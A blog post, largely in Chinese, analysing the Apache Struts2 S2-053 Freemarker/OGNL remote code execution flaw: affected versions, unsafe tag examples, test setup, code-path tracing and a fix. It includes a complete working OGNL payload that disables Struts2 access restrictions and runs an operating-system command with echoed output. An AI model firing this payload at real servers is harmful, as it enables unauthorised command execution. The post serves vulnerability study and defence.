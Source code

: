 ```yaml
---
layout:     post
title:      "Apache Struts2 Remote Code Execution (S2-053) "
subtitle:   "Analysis of the Vulnerabilities"
date:       2017-09-15
author:     "Urahara"
categories: [Struts2, Remote Code Execution, Java Security]



---
```


### Versions Affected

```
Struts 2.0.1 - Struts 2.3.33, 
Struts 2.5 - Struts 2.5.10
```

### Description

> A possible Remote Code Execution attack when using an unintentional expression in Freemarker tag instead of string literals
>
> When using expression literals or forcing expression in Freemarker tags (see example below) and using request values can lead to RCE attack.

```php+HTML
<@s.hidden name="redirectUri" value=redirectUri />

<@s.hidden name="redirectUri" value="${redirectUri}" />

<@s.hidden name="${redirectUri}"/>
```

根据官方表述该漏洞主要是Freemarker模板语言的一个特性，被开发人员错误利用导致因传入ognl表达式而造成RCE的风险，所以再结合官方给出的错误编码示例，很容易猜测到这个漏洞首先是一个安全编码导致的问题，而非struts2通杀漏洞，因此官方对该漏洞的风险定级为中危。

在java领域，表现层技术主要有三种：jsp、freemarker、velocity。Struts2使用FreeMarker作为其默认的模板引擎，FreeMarker负责将数据模型中的数据合并到模板中，从而生成标准输出，对于界面开发人员而言，他们只关心界面（也就是模板文件）的开发，而无需理会底层数据，而对于业务逻辑开发者，他们只需要关心负责将需要显示的数据填入数据模型即可，对于传统的jsp页面而言，FreeMarker是一个绝佳的替代方案。

### Vulnerability Environment

根据官方的漏洞表述，我们使用struts-2.5.10版本，写一个在FreeMarker中使用Struts2标签的ftl模板文件，功能比较简单获取name并输出

![freemarker-ftl](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-ftl.png)

在 Action 中，为了将name值传到以上的Freemarker 模板中，将name值绑定到相应的属性中即可， action 代码如下：

![freemarker-java](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-java.png)

这样一个漏洞环境就搭建好了，接下来就是进行漏洞测试和分析

### Vulnerability Analysis

漏洞利用很简单，提交`%{2*333}`观察返回name值，表达式被正确执行即可

![freemarker-page](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-freemarker-page.png)

POC同s2-045就可以，带回显POC如下：

```java
%{(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ipconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(@org.apache.commons.io.IOUtils@toString(#process.getInputStream()))}
```

我们知道在ftl模板里${···}本身就是ognl表达式，所以这个漏洞没有什么可以去分析的漏洞触发机制，不过作为struts2的ognl表达式执行漏洞学习案例还是不错的，很直接！

先看\org\apache\struts2\views\freemarker\ScopesHashModel.class，Struts2 Action get从前台获取到参数内容后，会先获得用户提交的参数名，然后从值栈（Value Stack）中找到符合参数值的内容（ognl），其中主要用到ValueStack的findValue方法

![s2-053-analysis1](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis1.png)

当action处理完成后，调用set方法。这里需要注意在Component类的copyParams方法，其中用到了setValue来处理，所以action的实例变量可以被OGNL访问

![s2-053-analysis2](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis2.png)

同样的在OgnlValueStack中的setValue再进行处理，继续跟进最后发现被OgnlUtil中的setValue来传递ognl表达式

最终ognl表达式被OgnlValueStack中的findValue所执行，因为POC不是以#开头，会把expr当做key值到contextMap中找，再次过程中ognl表达式被执行。

![s2-053-analysis3](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-analysis3.png)

### Solution

首先你可以进行struts2版本升级，其中对freemarker配置中进行了更多的限制，其次本文开始就说了，这首先是一个安全编码的问题，正确的标签使用方法如下：

![solution](http://reverse-tcp.xyz/static/img/posts/struts2/s2-053-solution.png)







